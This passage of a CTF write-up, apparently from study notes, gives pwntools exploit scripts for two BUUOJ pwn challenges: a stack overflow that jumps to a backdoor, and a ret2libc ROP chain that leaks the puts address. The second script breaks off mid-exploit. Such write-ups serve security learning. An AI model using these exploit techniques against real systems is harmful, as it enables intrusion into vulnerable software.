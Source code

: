### exp
```python
from pwn import *

#context(log_level='debug')
#p = process("./bjdctf_2020_babystack")
p = remote("node5.buuoj.cn",27726)

backdoor = 0x4006e7

payload = b'100'
p.recvuntil(b"length")
p.sendline(payload)

payload = b'a'*16+b'b'*8+p64(backdoor)
p.recvuntil(b"What's u name?")
p.sendline(payload)

p.interactive()
```

## ciscn_2019_c_1
### 思路
ret2libc，利用puts泄露地址

### exp
```python
from pwn import *

#context.log_level = "debug"

p = remote('node5.buuoj.cn',26179)
#p = process('./ciscn_2019_c_1')
elf = ELF('./ciscn_2019_c_1')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
gets_got = elf.got['gets']

pop_rdi = 0x400c83
ret = 0x4006b9
encrypt = 0x4009a0

puts_offset = 0x0809c0
system_offset = 0x04f440
binsh_offset = 0x1b3e9a

p.recvuntil(b'Input your choice!')
p.sendline(b'1')

payload = b'\x00'+b'A'*87
payload+= p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(encrypt)

p.recvuntil(b'Input your Plaintext to be encrypted')
p.sendline(payload)

p.recvuntil(b"Ciphertext")
puts_addr = u64(p.recv(8)[2:8].ljust(8,b'\x00'))

info(hex(puts_addr))

libc_base = puts_addr - puts_offset
```
